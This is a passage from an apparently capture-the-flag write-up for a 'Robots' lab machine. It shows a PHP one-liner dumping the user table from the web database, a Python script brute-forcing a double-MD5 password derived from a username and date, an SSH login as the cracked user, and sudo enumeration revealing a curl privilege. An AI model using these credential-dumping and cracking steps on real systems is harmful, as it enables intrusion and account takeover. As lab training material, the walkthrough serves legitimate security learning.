 <h4>Hashes</h4>

```bash
www-data@robots:/var/www/html/harm/to/self$ php -r '$pdo=new PDO("mysql:host=db;dbname=web;charset=utf8mb4","robots","REDACTED", [PDO::ATTR_ERRMODE=>PDO::ERRMODE_EXCEPTION,PDO::ATTR_DEFAULT_FETCH_MODE=>PDO::FETCH_ASSOC]);$r=$pdo->query("SELECT * FROM user");while($row=$r->fetch()){print_r($row);}'
...
Array
(
    [id] => 2
    [username] => rgiskard
    [password] => REDACTED
    [group] => nologin
)
...
```

<h4>Decode</h4>

<p>

- employed Jaxafed´s solution
</p>


```bash
#!/usr/bin/env python3

from hashlib import md5

for m in range(1, 13):
	for d in range(1, 32):
		plain = "rgiskard" + str(d).zfill(2) + str(m).zfill(2)
		password = md5(plain.encode()).hexdigest()
		hashed = md5(password.encode()).hexdigest()
		if hashed == "rgiskard´s hash here":
			print(f"Plain: {plain}, Password: {password}")
			exit()
```

```bash
:~/Robots/exfil# python3 script.py
Plain: rgiskard2209, Password: REDACTED
```

<h4>ssh | rgiskard</h4>

```bash
:~/Robots/exfil# ssh rgiskard@robots.thm
...
rgiskard@ubuntu-jammy:~$ pwd
/home/rgiskard
rgiskard@ubuntu-jammy:~$ ls -lah
total 20K
drwxr-x--- 2 rgiskard rgiskard 4.0K Aug 19  2024 .
drwxr-xr-x 5 root     root     4.0K Aug 19  2024 ..
-rw-r--r-- 1 rgiskard rgiskard  220 Jan  6  2022 .bash_logout
-rw-r--r-- 1 rgiskard rgiskard 3.7K Jan  6  2022 .bashrc
-rw-r--r-- 1 rgiskard rgiskard  807 Jan  6  2022 .profile
rgiskard@ubuntu-jammy:~$ sudo -l
[sudo] password for rgiskard: 
Matching Defaults entries for rgiskard on ubuntu-jammy:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User rgiskard may run the following commands on ubuntu-jammy:
    (dolivaw) /usr/bin/curl 127.0.0.1/*
```
